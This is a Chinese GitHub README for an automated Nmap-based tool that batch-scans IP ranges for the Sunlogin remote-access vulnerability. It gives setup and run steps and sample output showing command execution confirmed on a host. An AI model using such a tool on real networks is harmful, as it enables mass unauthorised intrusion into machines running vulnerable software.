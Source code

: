 # sunlogin_exp_for_tututu
# 基于NMAP的向日葵漏洞自动化批量扫描工具

## 1. 需要您安装NMAP，https://nmap.org/download。

## 2. 需要更新安装Python模块(请使用Python3)
    pip install requests
    pip install python-nmap
    
## 3. 在test.txt中放入地址段(仅支持IP和地址段哦);每个IP或者地址段占一行哦。

## 4. 执行Python sunlogin_exp_for_tututu.py

执行情况:
```
PS D:\> python .\sunlogin_exp_for_tututu.py
2022-07-10 10:52:21-172.17.8.0/23
[+]host:http://172.17.8.99:61127 cid:hHdXNeZi8NrH5cOND9JVsawf5lysf97y cmd:"vulnerable!" response:vulnerable! 
```
